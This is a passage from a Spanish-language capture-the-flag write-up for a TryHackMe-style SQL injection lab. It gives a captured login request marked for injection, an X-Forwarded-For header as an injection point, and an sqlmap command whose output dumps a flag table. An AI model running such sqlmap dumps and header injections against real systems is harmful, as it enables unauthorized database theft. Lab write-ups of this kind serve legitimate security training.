 El archivo del parámetro `-r` es un captura de una petición post en el directorio `login`, en especifico es la siguiente:

```http
POST /login HTTP/1.1
Host: 10.10.126.16
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.126.16/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://10.10.126.16
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin*&password=
```

Ahora voy a ir al apartado de términos y condiciones, que es lo que me dice la pista de la segunda bandera.

### Flag 2 - Cabecera HTTP

![[Pasted image 20250728141149.png]]

Veo que la ultima consigna hay un apartado donde guardan mi IP, ya que estoy con encabezados http, hice una búsqueda rápida en internet y vi que hay un encabezado denominado `X-Forwarded-For` a si que lo voy a poner en el encabezado y se lo voy a volver a mandar a `sqlmap` haber si saca algo. 

```shell
root@ip-10-10-86-187:~# sqlmap -r Prueba3 --dbms=MySQL -D sqhell_1 --dump-all
Table: flag
[1 entry]
+------+---------------------------------------------+
| id   | flag                                        |
+------+---------------------------------------------+
| 1    | THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15} |
+------+---------------------------------------------+
Table: hits
[0 entries]
+----+------+---------+
| ip | id   | count   |
+----+------+---------+
+----+------+---------+
[*] ending @ 14:28:45 /2025-07-28/
```

Sacamos la segunda flag ahora a por la tercera, veo que lo de darle los encabezados a sqlmap funciona, por lo que voy a ver si con el apartado de `register` funciona algo.
